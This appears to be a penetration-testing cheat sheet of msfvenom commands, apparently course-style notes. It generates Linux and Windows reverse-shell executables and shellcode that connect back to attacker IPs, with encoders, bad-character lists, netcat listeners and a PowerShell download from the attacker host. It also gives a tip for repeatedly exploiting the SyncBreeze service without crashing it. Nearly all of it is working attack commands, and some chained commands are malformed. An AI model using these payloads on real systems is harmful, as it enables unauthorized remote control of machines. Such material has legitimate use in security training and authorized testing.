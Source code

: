 ### Msfvenom
msfvenom --list payloads  
msfvenom --list platforms  
msfvenom --list formats  

msfvenom -p linux/x86/shell_reverse_tcp --list-options  

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f elf > shell.elf && nc -lvnp 443 && python -c 'import pty;pty.spawn("/bin/bash")'; && export TERM=xterm  

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.48.2 LPORT=443 -f exe > windows_reverse.exe && powershell && Invoke-WebRequest -Uri http://192.168.48.2/windows_reverse.exe -OutFile windows_reverse.exe && nc -lvnp 443  

msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.119.190 LPORT=443 -f py -v shellcode -e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7"  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f c -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has service handles the string to raw bytes conversion)  

msfvenom -a x86 -p windows/exec cmd=cmd.exe -e x86/shikata_ga_nai -f raw -n 10 -b "\x00\x0a\x0d"(non-network-based command execution payloads)(it has no service handles the string to raw bytes conversion)  

> Improving the Exploit
The default exit method of Metasploit shellcode following its execution is the ExitProcess API. This exit method will shut down the whole web service process when the reverse shell is terminated, effectively killing the SyncBreeze service and causing it to crash.
If the program we are exploiting is a threaded application, and in this case it is, we can try to avoid crashing the service completely by using the ExitThread API instead, which will only terminate the affected thread of the program. This will make our exploit work without interrupting the usual operation of the SyncBreeze server, and will allow us to repeatedly exploit the server and exit the shell without bringing down the service.
To instruct msfvenom to use the ExitThread method during shellcode generation, we can use the EXITFUNC=thread option as shown in the command below:

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread(this parameter can't be put behind all other parameters-tested) -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"  

> The shells shown in this listing all have similar names. The key difference here is the separation after the architecture, of the payload names via a '/' or '_'. The payloads that are separated with a '/' character are staged payloads.6 Staged payloads begin the execution process with a small portion of the code that doesn't contain the full payload.Instead, it initiates the payload download from the attacking host after it begins execution. The benefit of a staged payload is that the size of the file is smaller. This may help with upload limitations on a target host. We will not be working with staged payloads, since that would require us to work with Metasploit.Payloads separated by an underscore (_) are stageless payloads.7 Stageless payloads contain the full payload from MSFvenom and do not require any additional resources from the attacker after initial execution. These payloads are larger when they are produced but often don't require the use of Metasploit to obtain shell access.
